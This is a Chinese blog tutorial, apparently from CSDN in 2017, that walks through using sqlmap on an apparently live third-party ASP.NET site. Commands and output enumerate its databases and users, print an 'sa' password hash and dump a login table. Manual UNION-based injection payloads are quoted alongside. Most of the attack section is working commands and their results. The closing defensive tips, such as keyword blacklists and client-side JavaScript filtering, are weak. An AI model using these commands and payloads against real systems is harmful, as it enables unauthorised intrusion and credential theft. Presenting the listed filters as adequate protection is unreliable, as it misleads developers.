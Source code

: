 
# [渗透&攻防] 二.SQL MAP工具从零解读数据库及基础用法 - 杨秀璋的专栏 - CSDN博客

2017年07月18日 00:29:29[Eastmount](https://me.csdn.net/Eastmount)阅读数：3108


这是最近学习渗透和网站攻防的文章，希望能深入地学习这部分知识，自己作为一个初学者，前一篇文章从数据库原理解读了防止SQL注入，这篇文章通过SQLMAP工具简单介绍SQL注入及用法。自己仍在慢慢探索网络攻防和渗透，希望文章对你有所帮助，尤其是学习网络安全的初学者，如果文章中存在错误或不足之处，还请海涵~
一.SQLMAP介绍
1.基础介绍
2.安装过程
3.漏洞检测
二.SQLMAP基础用法
1.获取所有数据库
2.获取当前数据库
3.获取数据库所有用户
4.获取数据库当前用户
5.获取数据库所有用户和密码
6.获取数据库所有表
7.获取数据库登录表所有字段
8.获取数据库登录表用户名和密码
三.总结

前文欣赏：
[[渗透&攻防] 一.从数据库原理学习网络攻防及防止SQL注入](http://blog.csdn.net/eastmount/article/details/75000575)
强推文章：
[渗透测试工具sqlmap基础教程 - zgyulongfei](http://blog.csdn.net/zgyulongfei/article/details/41017493/)


## 一. SQLMAP介绍
**1.基础介绍**
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

SQLMAP是一款非常强大的开源渗透测试工具，用于自动检测和利用SQL注入漏洞控制数据库服务器的过程。它配备了一个强大的检测引擎，由Python语言开发完成，通过外部连接访问数据库底层文件系统和操作系统，并执行命令实现渗透。
**2.安装过程**
由于它是通过Python语言开发完成，需要安装Python环境，下面开始安装SQLMAP。
方法一：调用Pyhon命令pip install sqlmap安装

![](https://img-blog.csdn.net/20170716004350512)
方法二：从Github中获取SQLMAP进行安装
下载地址：[https://github.com/sqlmapproject/sqlmap ](https://github.com/sqlmapproject/sqlmap)

**3.漏洞检测**
cd去到Python环境sqlmap文件夹下，运行命令：

```python
python sqlmap.py -u "http://..../tztgxx.aspx?code=115"
```
运行结果如下图所示，-u表示网址url。
![](https://img-blog.csdn.net/20170716225257373)
输出GET的四种注入类型，分别为：boolean-based blind、stacked queries、time-based blind、UNION query。这里你可能会发现和我们的第一篇文章手动讲解SQL注入类似，包括：AND 1327=1327、UNION ALL等。

![](https://img-blog.csdn.net/20170716225613772)
输出结果：
(1) 操作系统：Windows 2000
(2) Web应用技术：ASP.NET，ASP.NET 2.0,  Microsoft IIS 5.0
(3) 数据库：Microsoft SQL Server 2000
下面通过一个实例进行讲解SQLMAP的基础用法。


## 二. SQLMAP基础用法
SQLMAP的基础用法和前面基础文章类似，都是通过漏洞和SQL语句获取相关信息，具体用法如下：
**1.获取所有数据库**
参数：--dbs
命令：

```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --dbs
```
运行结果如下图所示，获取9个数据库，其中--dbs参数表示databases。
![](https://img-blog.csdn.net/20170717222459720)

**2.获取当前数据库**
参数：--current-db
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --current-db
```
运行结果如下图所示，获取9个数据库。其中--current-db参数表示当前数据库，相当于前文MSSQL的db_name()获取数据库字段。
![](https://img-blog.csdn.net/20170717224136654)

输出结果：akykd_new
对应前文：
http://xxxxx/show.asp?code=-1' union all
select 1,null,3,null,null,6,host_name(),@@version,db_name(),10 --
输出结果如下所示：
附件3：ahykd_new
其中数据库的名称就是ahykd_new，接下来相同的道理获取数据库所有表及列。

**3.获取数据库所有用户**
参数：--users
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --users
```
运行结果如下图所示，获取2个用户库。
![](https://img-blog.csdn.net/20170717224223045)
输出结果：两个用户
(1)BUILTIN\\Adminstrators
(2)sa

**4.****获取数据库当前用户**
参数：--current-user
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --current-user
```
运行结果如下图所示，获取当前数据库用户sa。
![](https://img-blog.csdn.net/20170717224639352)

**5.****获取数据库所有用户和密码**
参数：--passwords
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" --passwords
```
运行结果如下图所示，获取数据库用户和密码。
![](https://img-blog.csdn.net/20170717225556128)
输出结果：
database management system users password hashes:
[*] BUILTIN\\Administrators [1]:
password hash: NULL
[*] sa [1]:
password hash: 0x01006e27653a36bbc7907ec45a0060e0c5065ea5172f249faa73ba704d1440b4ec497e552b6c1c27a6a34b7f575b

**6.****获取数据库所有表**
参数：-Dahykd_new--tables
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" -D ahykd_new --tables
```
运行结果如下图所示，获取数据库ahykd_new的所有表，其中-D表示数据库，--tables表示所有表。
![](https://img-blog.csdn.net/20170717230331343)
通过人为猜解，知道登陆表位usr。
对应前文：
http://xxxxx/show.asp?code=-1' union all
select1,null,3,null,null,6,7,8,
(select top 1 name from sysobjects where type='U'),10 --
输出结果如下所示：
附件1：7
附件2：8
附件3：kc_jxjd
其中top 1 name用于输出1个字段，sysobjects中u为用户表。

**7.****获取数据库登录表所有字段**
参数：-D ahykd_new -T usr --columns
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" -D ahykd_new -T usr --columns
```
运行结果如下图所示，获取数据库ahykd_new的登录表usr所有字段，其中-D表示数据库，-T表示表，--columns表示usr表所有列。
![](https://img-blog.csdn.net/20170717231022805)
![](https://img-blog.csdn.net/20170717231045930)

是不是感觉到了SQLMAP的强大，其中用户名usr_name、密码passwd。
对应前文：
http://xxxxx/show.asp?code=-1' union all
select1,null,3,null,null,6,7,8,
(select top 1 name from syscolmns where id=object_id('usr')),10 --
输出结果如下所示：
附件1：7
附件2：8
附件3：answer
其中top 1 name用于输出1个字段，表usr的一个列表。

**8.****获取数据库登录表用户名和密码**
参数：-D ahykd_new -T usr -C "usr_name,password" --dump
命令：
```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" -D ahykd_new -T usr -C
```
```python
"usr_name,password" --dump
```
获取数据库ahykd_new的登录表usr所有字段，其中-D表示数据库，-T表示表，-C表示输出字段（usr_name、passwd），--dump输出所有值。
![](https://img-blog.csdn.net/20170717232839642)

如果字段内容太多，可以设置输出个数，如10个用户名和密码。
参数：-D ahykd_new -T usr -C "usr_name,passwd" --start 1 --stop 10 --dump
命令：

```python
python sqlmap.py -u "http://.../tztgxx.aspx?code=115" -D ahykd_new -T usr -C "usr_name,passwd" --start 1 --stop 10 --dump
```
输出结果为空，报警告“the SQL query provided does not return any output”。
![](https://img-blog.csdn.net/20170717232900561)
正常的输出结果例如下图所示，再通过md5解密即可。
![](https://img-blog.csdn.net/20141112100610793?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvemd5dWxvbmdmZWk=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast)


## 三. 总结
真正的困难在于如何找到一个存在漏洞的网站，如何去防护。现在很多网站都应做好相关防御措施，手工SQL注入是没有反应的，但是找到漏洞后，再利用SQLMAP就能够找到相应的用户名和密码。
参考前文，个人理解的防御措施：
1.在URL设置不允许非法字符，如单引号、等号、注释--、减号，提示非法参数；
2.在URL设置不允许SQL常见的关键词，如and、select、or、insert等；
3.传递的id=115参数必须为数字才能正常跳转，否则跳转错误；
4.服务器启用SQL注入拦截功能，提示当前网页的 URL / POST / COOKIES中包含了特定的 SQL字符而被防火墙拦截，因为可能通过POST、Cookies进行攻击，各方面都需要做到防御。
5.可以使用JS在客户端进行不安全字符屏蔽，也可以在jsp中调用该函数检查是否包函非法字符，或使用正则表达式过滤传入的参数，防止SQL从URL注入。
希望文章对你有所帮助，尤其是网络安全的程序员，因为系列文章是和前文息息相关的，所以看着有些凌乱。如果文章存在错误或不足之处，还请海涵。感谢娜师傅的一路陪伴，学中文的扔掉了手中的尤克里里，教我写代码也是很疯狂的啊，哈哈！不忘初心，继续前行。加油，秀璋。绿妖，晚安！
(By:Eastmount 2017-07-17 晚上12点[http://blog.csdn.net/eastmount/](http://blog.csdn.net/eastmount/))



